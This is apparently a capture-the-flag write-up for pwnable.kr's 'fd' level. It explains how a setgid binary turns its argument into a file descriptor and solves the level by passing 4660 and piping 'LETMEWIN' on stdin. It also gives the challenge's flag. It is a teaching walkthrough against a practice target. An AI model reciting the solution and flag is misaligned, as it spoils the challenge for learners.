



# pwnable.kr — fd

First level of [pwnable.kr](https://pwnable.kr) Toddler's Bottle. The goal is to make a setgid binary print `flag` by understanding how `read()` picks a file descriptor.

## Setup

SSH in and copy the challenge into a temp dir. The binary is setgid `fd_pwn`:

```text
$ ls -l fd
-rwxr-sr-x 1 fd_pwn fd_pwn 15148 … fd
```



That `s` in the group execute bit means it runs with the `fd_pwn` group, which is what can read `flag`.

## Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		setregid(getegid(), getegid());
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;
}
```



## Vulnerability

`argv[1]` is turned into a file descriptor with:

```c
int fd = atoi(argv[1]) - 0x1234;
```

`0x1234` is **4660** decimal. The program then `read`s 32 bytes from that fd into `buf` and compares against `"LETMEWIN\n"`.

On Linux, **fd 0 is stdin**. If we can make `fd == 0`, `read` pulls from our keyboard (or a pipe).

## Exploit

Pass `4660` so the subtraction yields `0`, then type the magic string:

```bash
./fd 4660
LETMEWIN
```

Or one-liner:

```bash
echo 'LETMEWIN' | ./fd 4660
```



## Flag

```text
Mama! Now_I_understand_what_file_descriptors_are!
```

## Takeaways

- `0` / `1` / `2` are stdin / stdout / stderr — still just integers you can pass to `read` / `write`.
- Setgid binaries escalate group privileges so the process can open files your login user cannot.
- When a challenge subtracts a constant from your input to build an fd, try forcing that fd to `0` and feed the expected payload on stdin.
